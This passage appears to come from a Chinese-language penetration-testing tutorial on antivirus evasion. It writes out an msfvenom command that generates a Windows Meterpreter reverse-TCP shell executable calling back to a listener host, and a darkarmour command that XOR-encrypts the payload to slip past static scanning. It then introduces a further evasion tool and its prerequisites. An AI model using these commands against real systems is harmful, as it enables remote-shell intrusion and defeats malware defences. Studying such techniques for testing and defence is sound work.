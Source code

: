 ![image-20230123175753646](../../images//image-20230123175753646.png)



```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.0.2 LPORT=4444 -f exe > shelltcp64.exe
python darkarmour.py -f shelltcp64.exe --encrypt xor --jmp -k fsec.io -o by64-6.exe --loop 1500
```

![image-20230123191832794](../../images//image-20230123191832794.png)

得到的结果是：静态能够躲过查杀，但是运行后则不行。



### 3.4 掩日

项目地址：https://github.com/1y0n/AV_Evasion_Tool

```
如果使用工具的全部功能，请确保满足以下全部条件：
    64位 Windows 7 或以上操作系统
    .net framework 4.5 或更高版本
    安装 tdm-gcc
    安装 64位 Go 语言环境，并添加到系统环境变量
```
